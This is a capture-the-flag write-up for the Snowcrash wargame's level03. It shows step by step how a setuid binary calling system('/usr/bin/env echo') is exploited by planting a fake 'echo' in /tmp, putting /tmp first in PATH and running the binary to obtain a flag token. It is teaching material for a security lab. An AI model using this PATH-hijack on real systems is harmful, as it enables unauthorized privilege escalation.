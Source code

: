 # <center>Snowcrash level03</center>

# Explanations

<br/>

## On VM:
> $ ls -l
>> -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

> $ nm -u ./level03
>>U system@@GLIBC_2.0

> $ ltrace ./level03
>> system("/usr/bin/env echo Exploit me"Exploit me

- The program uses the function system() of the global lib C to execute the echo command.
- We are going to locate the getflag program in the system and run it by replacing the echo command.

> $ find / -name getflag
>> /bin/getflag

> $ echo '/bin/getflag' > /tmp/echo<br/>
> $ chmod 777 /tmp/echo<br/>
> $ export PATH=/tmp:$PATH<br/>
> $ ./level03<br/>
>> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus